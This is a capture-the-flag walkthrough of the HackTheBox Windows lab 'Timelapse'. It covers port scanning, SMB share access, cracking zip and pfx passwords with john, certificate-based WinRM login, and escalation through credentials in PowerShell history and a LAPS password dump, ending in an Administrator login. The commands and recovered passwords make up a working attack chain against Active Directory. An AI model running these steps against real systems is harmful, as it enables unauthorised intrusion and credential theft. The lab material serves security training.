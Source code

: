 ```yaml
---
title: HTB | Timelapse
author: Zeropio
date: 2022-05-28
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy]
permalink: /pentesting/htb/machines/timelapse
image:
  path: /assets/img/hackthebox/card/Timelapse.png
  width: 800
  height: 500
---
```


# Enumeration
We can see thanks to the ping that is a Windows:
```
> ping 10.10.11.152
PING 10.10.11.152 (10.10.11.152) 56(84) bytes of data.
64 bytes from 10.10.11.152: icmp_seq=1 ttl=127 time=51.7 ms
```
**ttl=127**

First we scan the ports:
```
# Nmap 7.92 scan initiated Sun May 22 20:33:04 2022 as: nmap -p- -sS --min-rate 5000 --open -v -oG allPorts 10.10.11.152
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.152 ()	Status: Up
Host: 10.10.11.152 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5986/open/tcp//wsmans///, 9389/open/tcp//adws///, 49667/open/tcp/////, 49673/open/tcp/////, 49674/open/tcp/////, 49696/open/tcp/////, 61941/open/tcp/////	Ignored State: filtered (65518)
# Nmap done at Sun May 22 20:33:45 2022 -- 1 IP address (1 host up) scanned in 40.27 seconds
```

We executed the (getPorts.sh)[https://raw.githubusercontent.com/zeropio/the_helpful_scripts/main/nmap/getPorts.sh] command to scan each one:
```console
# Nmap 7.92 scan initiated Sat May 28 00:43:09 2022 as: nmap -sVC -p 53,88,135,139,389,445,464,636,3268,3269,5986,9389,49667,49673,49674,49696,61941 -Pn -oN nmapFull 10.10.11.152
Nmap scan report for 10.10.11.152
Host is up (0.065s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-28 06:43:16Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
5986/tcp  open     ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-05-28T06:44:46+00:00; +7h59m59s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
49667/tcp open     msrpc         Microsoft Windows RPC
49673/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open     msrpc         Microsoft Windows RPC
49696/tcp open     msrpc         Microsoft Windows RPC
61941/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h59m58s, deviation: 0s, median: 7h59m58s
| smb2-time: 
|   date: 2022-05-28T06:44:08
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

&nbsp;
---

# Explotation

## Samba
We can confirm that is a Windows. Let's try the samba:
```console
> smbclient -L \\\\10.10.11.152\\  
Password for [WORKGROUP\zeropio]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
```

We can test those folders:
```console
> smbclient \\\\10.10.11.152\\ADMIN$
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\C$    
Password for [WORKGROUP\zeropio]:
tree connect failed: NT_STATUS_ACCESS_DENIED

> smbclient \\\\10.10.11.152\\IPC$
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\NETLOGON
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

> smbclient \\\\10.10.11.152\\SYSVOL
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```

Finally, **Shares** have some files:
```console
> smbclient \\\\10.10.11.152\\Shares
Password for [WORKGROUP\zeropio]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 17:39:15 2021
  ..                                  D        0  Mon Oct 25 17:39:15 2021
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021
```
We download all of them.

### zip
If we try to unzip the file:
```console
> unzip winrm_backup.zip                
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
```

We need to break it with **john**:
```console
> sudo john --format=PKZIP --wordlist=/usr/share/wordlists/rockyou.txt zip-hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**supremelegacy**    (winrm_backup.zip/legacyy_dev_auth.pfx)
```

### pfx
We get the following file: **legacyy_dev_auth.pfx**. If we try to open it, it ask for a password.
Let's break it with john again:
```console
> sudo john --format=pfx --wordlist=/usr/share/wordlists/rockyou.txt pfx-hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 512/512 AVX512BW 16x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**thuglegacy**       (legacyy_dev_auth.pfx) 
```
We can see some ssl certs:
![HTB Img](/assets/img/hackthebox/labs/timelapse/zeropio-28012153.jpg)

```console
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
> openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt 
```

### shell
We can use **evil-winrm** to access. Thanks to the nmap we now that ssl is enable, so we need to add **-S**:
```console
> evil-winrm -i 10.10.11.152 -c cert.crt -k prv.key -S
Enter PEM pass phrase:
	*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

&nbsp;
---

# Privilage Escalation
If we check the history we can see something:
```console
PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> cat ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We will set all the variables, know we can executed the code below in the history.
Let's try to get the admin password with LDAP:
```console
PS C:\Users> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Now we just need to login as **Administrator**:
```console
> evil-winrm -i 10.10.11.152 -S -u 'Administrator' -p 'h8#+vv+;q{E4u9+9u+-2c%+;' 
```
